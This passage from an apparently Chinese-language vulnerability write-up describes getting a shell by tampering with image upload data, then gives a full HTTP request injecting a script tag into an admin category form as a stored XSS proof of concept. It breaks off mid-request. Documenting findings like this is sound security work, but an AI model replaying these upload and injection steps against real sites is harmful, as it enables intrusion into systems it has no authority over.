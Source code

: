 &emsp;&emsp;抓包后修改图片数据（满足图片头格式即可）：

![](/img/HW-Vuln/HW36.png)

&emsp;&emsp;记录下路径后，成功getshell：

![](/img/HW-Vuln/HW37.png)

#### NO.2

&emsp;&emsp;后台分类管理处存在XSS：

```
POST /admin.php/category/add?dialog=1 HTTP/1.1
Host: admin.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:77.0) Gecko/20100101 Firefox/77.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 233
Origin: http://admin.com
Connection: close
Referer: http://admin.com/admin.php/category/add?dialog=1
Cookie: PHPSESSID=ou6fjfn717lu02rfm9saqguca4; uid=3; token=f824ac8c-ac7b-4979-a89b-b47dd8e79226


row%5Btype%5D=default&row%5Bpid%5D=0&row%5Bname%5D=%3Cscript%3Ealert(1)%3C%2Fscript%3E&row%5Bnickname%5D=123&row%5Bimage%5D=1&row%5Bkeywords%5D=123&row%5Bde
```
